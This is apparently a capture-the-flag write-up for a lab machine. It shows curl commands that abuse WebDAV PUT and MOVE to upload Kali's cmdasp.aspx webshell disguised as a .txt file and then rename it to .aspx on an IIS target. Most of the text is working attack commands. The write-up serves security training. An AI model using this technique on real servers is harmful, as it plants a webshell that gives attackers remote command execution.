 ## Dav manual test

````
Let PUT a text file and GET it

root@kali# echo yolo > test.txt
root@kali# curl -X PUT http://10.10.10.15/df.txt -d @test.txt 
root@kali# curl http://10.10.10.15/df.txt
yolo
-d @text.txt : the data for the request are the contents of the file text.txt.
````

Try with .asp
````
# curl -X PUT http://10.10.10.15/df.aspx -d @test.txt 
...
Error 403.1 - Forbidden: Execute access is denied.
...
````

## Dav Upload Webshell

Use KAli webshell /usr/share/webshells/aspx/cmdasp.aspx

````
$ cp /usr/share/webshells/aspx/cmdasp.aspx .
````

Now Upload it as .txt
````
$ curl -X PUT http://10.10.10.15/cmdasp.txt -d @cmdasp.aspx 
````
http://10.10.10.15/cmdasp.txt is served as text


For Binary upload

````
$ curl -X PUT http://10.10.10.15/cmdasp.txt --data-binary @cmdasp.aspx 
````

## Dav Move file

Let use the webdav MOVE command to deplace/rename our shell file.
    -X MOVE  
    -H 'Destination:http://10.10.10.15/cmdasp.aspx'  : target name
    http://10.10.10.15/cmdasp.txt - our file  


````
$ curl -X MOVE -H 'Destination:http://10.10.10.15/cmdasp.aspx' http://10.10.10.15/cmdasp.txt
````



![](images/granny_webshell.png)
